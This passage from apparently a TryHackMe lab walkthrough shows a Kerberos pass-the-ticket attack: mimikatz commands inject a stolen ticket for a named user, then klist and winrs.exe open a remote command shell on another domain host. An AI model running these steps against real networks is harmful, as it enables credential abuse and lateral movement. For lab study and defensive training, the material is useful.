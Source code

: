 ```
privilege::debug 
kerberos::ptt [0;363979]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi   
```

<figure><img src="../../.gitbook/assets/image (7) (9) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
klist
```

<figure><img src="../../.gitbook/assets/image (4) (1) (7).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
winrs.exe -r:THMIIS.za.tryhackme.com cmd   
```

<figure><img src="../../.gitbook/assets/image (3) (13).png" alt=""><figcaption></figcaption></figure>
